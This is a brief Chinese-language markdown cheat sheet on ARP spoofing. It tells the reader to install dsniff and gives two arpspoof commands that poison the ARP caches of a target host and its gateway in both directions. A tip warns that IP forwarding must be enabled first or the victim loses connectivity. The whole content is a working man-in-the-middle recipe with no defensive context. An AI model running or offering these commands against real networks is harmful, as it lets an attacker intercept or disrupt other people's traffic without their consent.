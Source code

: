 # arp 

## arp欺骗

:::tip 提示
需要提前开启路由转发功能，否则目标主机会断网
:::

```shell
# sudo apt-get install dsniff
# 第一个ip是欺诈的主机, 第二个ip是要伪装的主机
# -i 为网口
sudo arpspoof -i enp4s0 -t 192.168.12.194 192.168.12.254
sudo arpspoof -i enp4s0 -t 192.168.12.254 192.168.12.194
```

